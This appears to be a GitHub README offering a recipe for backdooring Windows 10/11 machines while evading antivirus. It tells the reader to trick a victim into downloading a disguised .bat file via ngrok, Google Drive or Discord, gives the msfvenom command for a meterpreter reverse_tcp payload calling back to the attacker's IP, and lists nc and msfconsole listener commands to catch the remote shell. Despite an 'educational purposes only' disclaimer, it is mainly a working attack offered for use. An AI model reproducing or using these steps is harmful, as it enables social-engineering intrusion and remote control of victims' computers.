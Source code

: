 # Windows 11/10 Bypass AV & Backdoor
##### For educational purposes only!
##### Social Engineering required!
## Steps:

1. Get victim to download .bat file to their machine, i.e through ngrok server, google drive, discord, or other means.
######Make it convincing by turning it into a trojan horse.
2. Generate the payload:
Using meterpreter here, but feel free to play around with it.
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR_IP] LPORT=4444 -a x86 -f exe -o [FILE_NAME.exe]

3. Setup your listener with nc or msfconsole. <br>
nc -lvnp 9001 <br>
or <br>
msfconsole -q <br>
msf> use multi/handler <br>
msf  exploit(handler) > set payload windows/meterpreter/reverse_tcp <br>
msf  exploit(handler) > set LHOST <Listening_IP> (for example set LHOST 192.168.5.55) <br>
msf exploit(handler) > set LPORT <Listening_Port> (for example set LPORT 4444) <br>
msf exploit(handler) > exploit <br>

